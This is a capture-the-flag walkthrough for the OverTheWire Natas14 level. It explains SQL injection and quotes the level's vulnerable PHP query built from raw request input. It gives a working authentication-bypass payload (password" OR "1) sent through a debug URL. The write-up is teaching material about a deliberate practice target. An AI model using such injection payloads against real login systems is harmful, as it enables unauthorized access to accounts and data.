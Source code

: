 # 🔐 Natas14 Walkthrough

We’re presented with a login form. This hints that **SQL Injection** might be the intended path forward.


## 💡 What is SQL Injection?

SQL Injection is a technique used to manipulate a website’s database through its input fields.

### 🔎 Example

Imagine a login system with a SQL query like this:

```php
SELECT * FROM users WHERE username = "$username" AND password = "$password";
```

Now suppose the attacker enters the following credentials:

```
username: admin  
password: password" OR "1 --
```

The query becomes:

```php
SELECT * FROM users WHERE username = "admin" AND password = "password" OR "1" --";
```

Let's break it down:
- `"password"` ends the password value.
- `OR "1"` (shorthand for "1" = true) makes the condition always true.
- `--` comments out the rest of the SQL query (optional, but often helpful).

So the condition simplifies to:

```
username = "admin" AND (false) OR (true)
```

Which effectively bypasses the password check and logs in as `admin`.

## ✅ Exploit

Now, let’s check the [View sourcecode](http://natas14.natas.labs.overthewire.org/index-source.html) for Natas14.

From the source, we see:

```php
$link=mysqli_connect('localhost', 'natas14', '<censored>');  
mysqli_select_db($link, 'natas14');
```

This confirms that usernames and passwords are stored in a database.

And here’s an interesting part:

```php
if(array_key_exists("debug", $_GET)) {
    echo "Executing query: $query<br>";
}
```

This enables a "debug mode" if we include `debug` as a URL parameter. 
This lets us **see the SQL query** that gets executed — super useful!

Try opening this in your browser:

```
http://natas14.natas.labs.overthewire.org/index.php?username=&password=&debug
```

You’ll see the SQL query being built with the given parameters.

Now try this:

```
http://natas14.natas.labs.overthewire.org/index.php?username=admin&password=password" OR "1&debug
```

This allows you to tweak the input and see how it affects the query. Much easier than typing in the form! Because you can actually see what you're doing.

## 🐛 The Vulnerable Code

The vulnerable line is:

```php
$query = "SELECT * from users where username=\"".$_REQUEST["username"]."\" and password=\"".$_REQUEST["password"]."\"";
```

This directly inserts raw user input into the SQL query — a classic SQL injection vulnerability.

Let’s simplify it by removing the `\` backticks:

```php
SELECT * FROM users WHERE username = "$userProvidedUsername" AND password = "$userProvidedPassword";
```

This is almost identical to our earlier example — and just as vulnerable.

## 🎯 Final Attack

Use the following credentials in the **URL**, not the login form:

```
username: admin  
password: password" OR "1 (as you can see '--' not used)
```

So the final link looks like:

```
http://natas14.natas.labs.overthewire.org/index.php?username=admin&password=password" OR "1&debug
```

This will generate a query like:

```php
SELECT * FROM users WHERE username = "admin" AND password = "" OR "1";
```

Which bypasses authentication and logs you in! You should now see the password for **Natas15**. :}
